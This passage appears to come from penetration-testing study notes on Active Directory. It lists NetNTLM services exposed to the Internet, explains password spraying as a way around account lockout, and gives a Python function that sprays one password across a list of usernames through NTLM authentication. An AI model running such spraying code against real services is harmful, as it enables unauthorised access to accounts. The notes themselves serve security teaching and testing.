 ![](<../.gitbook/assets/0 (7).png>)

### Brute-force Login Attacks <a href="#id-7bj4o4y5y031" id="id-7bj4o4y5y031"></a>

Services that use NetNTLM may be exposed to the Internet:

* Internally-hosted Exchange (email) servers that expose Outlook Web App (OWA) login portal.
* Remote Desktop Protocol (RDP) service of server.
* Exposed VPN endpoints that were integrated with AD.
* Web applications that make use of NetNTLM.

Credentials discovered using other means can be tested on these services. Brute-force attack could be used on service to try and recover valid credentials if valid email address was recovered during initial information gathering.

Most AD environments have account lockout configured to prevent full brute-force attack Use quieter password spraying attack with single password and attempt to authenticate using all acquired usernames. Hydra could be used to assist with password spraying attack.

Scripting the attack allows more control. Python function takes suggested password and target URL as inputs and attempts to authenticate to URL with each username in text file:

```python
def password_spray(self, password, url):
print ("[*] Starting passwords spray attack using the following password: " + password)
#Reset valid credential counter
count = 0
#Iterate through all of the possible usernames
for user in self.users:
#Make a request to the website and attempt Windows Authentication
response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
#Read status code of response to determine if authentication was successful
if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
count += 1
```